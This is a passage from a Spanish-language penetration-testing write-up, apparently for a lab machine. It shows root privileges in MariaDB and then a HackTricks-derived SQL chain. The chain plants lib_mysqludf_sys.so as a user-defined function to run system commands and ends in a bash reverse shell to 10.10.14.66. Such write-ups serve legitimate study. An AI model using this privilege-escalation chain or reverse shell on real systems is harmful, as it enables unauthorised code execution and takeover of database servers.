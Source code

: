 ```console
            Grant_priv: Y                      
       References_priv: Y                      
            Index_priv: Y                      
            Alter_priv: Y                      
          Show_db_priv: Y                      
            Super_priv: Y                      
 Create_tmp_table_priv: Y                      
      Lock_tables_priv: Y                      
          Execute_priv: Y                      
       Repl_slave_priv: Y                      
      Repl_client_priv: Y                      
      Create_view_priv: Y                                                                      
        Show_view_priv: Y                      
   Create_routine_priv: Y                                                                      
    Alter_routine_priv: Y                      
      Create_user_priv: Y                                                                      
            Event_priv: Y                      
          Trigger_priv: Y                                                                      
Create_tablespace_priv: Y                      
   Delete_history_priv: Y                                                                      
              ssl_type:                        
            ssl_cipher:                        
           x509_issuer:                        
          x509_subject:                        
         max_questions: 0                      
           max_updates: 0                      
       max_connections: 0                      
  max_user_connections: 0                      
                plugin:                        
 authentication_string:                        
      password_expired: N                      
               is_role: N                      
          default_role:                        
    max_statement_time: 0.000000
```

> Usamos las flags `-e <query>` y `-E` para directamente executar una consulta y ver el output en formato vertical respectivamente
{: .prompt-tip}

En mi caso no estaba tan familiarizado con estos permisos, así que buscando en internet sobre posibles vulnerabilidades al estar registrados como `root` en una base de datos encontramos en la famosa "Biblia de Hackers" (Hacktricks) una vulnerabilidad para ejecutar comandos **RCE (Remote Code Execution)** por medio del concepto **User-Defined function** y una librería que permite comunicarse con el sistema

```sql
-- Use a database
use mysql;
-- Create a table to load the library and move it to the plugins dir
create table npn(line blob);
-- Load the binary library inside the table
-- You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
-- Get the plugin_dir path
show variables like '%plugin%';
-- Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
-- dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
-- Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
-- Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```